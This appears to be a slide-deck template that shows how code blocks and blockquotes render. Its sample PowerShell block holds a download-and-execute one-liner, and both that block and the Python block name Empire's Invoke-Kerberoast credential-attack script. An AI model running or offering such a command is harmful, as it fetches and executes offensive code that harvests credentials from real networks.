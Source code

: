 * Setting the code language to `code-plain` will prevent formatting by the NCC Template Scripts

.footnote[https://github.com/highlightjs/highlight.js#supported-languages]

---

# Code Blocks Example - Code

<pre>
  * Line with `inline code`
  * Code block with default highlighting
  
      ```
      echo "Code block with default highlighting"
      ```

  * Code block with PowerShell highlighting
  
      ```powershell
      &lt;# Code block with powershell highlighting #&gt;
      iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
      ```

  * Code block with Python highlighting and custom font styles
  
      ```python
      .font-size-16[# This text is set to 16px size]
      import requests
      requests.get("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
      .text-colour-green[# This text is set to green (overriding the code highlighting)]
      ```
</pre>

---

# Blockquotes

>Hack the planet - default blockquote style

.raspberry[
>Hack the planet - `raspberry` blockquote
]

.red[
>Hack the planet - `red` blockquote
]

.blue[
>Hack the planet - `blue` blockquote
]

---
